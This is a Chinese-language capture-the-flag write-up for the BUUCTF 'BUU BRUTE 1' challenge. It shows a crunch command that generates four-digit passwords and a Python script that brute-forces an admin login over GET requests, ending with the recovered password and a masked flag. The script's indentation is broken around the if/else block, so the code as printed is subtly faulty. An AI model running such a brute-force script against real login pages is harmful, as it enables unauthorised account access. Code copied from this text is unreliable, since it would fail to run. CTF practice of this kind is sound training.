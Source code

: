 # BUUCTF - BUU BRUTE 1 Writeup


进入题目url查看，是个登录界面，先输入admin/admin发现提示

```html
密码错误，为四位数字。
```

而且是get请求，结合题目，简单爆破

## crunch生成字典

```bash
crunch 4 4 -f /usr/share/crunch/charset.lst numeric -o adminpass.txt
```

## 爆破脚本

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
import time

f = open('./adminpass.txt','r')
payload = f.readline().strip()
while payload:
  print('\rpayload:'+payload,end="")
  res = requests.get("http://d60d9c19-efe0-4b6a-82c5-0d238a94a44b.node4.buuoj.cn:81/?username=admin&password="+payload)
  time.sleep(0.2)
  if '密码错误' not in res.text:
    print(res.text)
      f.close()
      break
    else:
      payload = f.readline().strip()
```

payload:6490登录成功。flag{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}

